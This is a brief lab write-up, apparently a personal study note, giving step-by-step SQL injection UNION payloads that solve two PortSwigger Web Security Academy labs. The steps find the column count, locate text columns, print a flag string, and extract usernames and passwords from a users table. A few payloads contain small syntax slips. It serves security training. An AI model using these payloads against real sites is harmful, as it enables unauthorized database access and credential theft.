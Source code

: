 # SQL Injection Part 2

## Portswigger Labs
### [Lab 4: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

**To solve: Find column containing text and print gDi73c**

**STEP 1:**
Find number of colums
```html
'+UNION+SELECT+NULL,NULL,NULL--
```

**STEP 2:**
Find columns that contains text
```html
'+UNION+SELECT+NULL,'abcd',NULL--
```

**STEP 3:**
Print the text 'gDi73c'
```html
'+UNION+SELECT+null,+'gDi73c',+null--
```

### [Lab5: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

**To solve: Login as administrator**

**STEP 1:**
Find number of column returned
```html
'+UNION+SELECT+NULL,NULL--
```

**STEP 2:**
Find column that contains text
```html
'+UNION+SELECT+abcd,'abcd'--
```

**STEP 3:**
Return username and password from users table
```html
+UNION+SELECT+username,+password+FROM+users--
```
